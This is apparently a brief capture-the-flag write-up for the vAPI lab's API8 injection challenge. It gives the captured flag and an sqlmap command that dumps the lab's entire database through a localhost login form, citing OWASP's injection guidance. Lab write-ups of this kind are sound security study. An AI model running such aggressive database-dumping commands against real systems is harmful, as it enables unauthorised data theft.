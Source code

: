 API8 Flag
```
flag{api8_509f8e201807860d5c91}
```

# Additional information

## Entire vAPI Database
Sidenote, using this command was too successful.
```bash
sqlmap "http://localhost/vapi/api8/user/login" --data="username=test1&password=test2" --level 5 --risk 3 --dump --batch
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa8-injection/
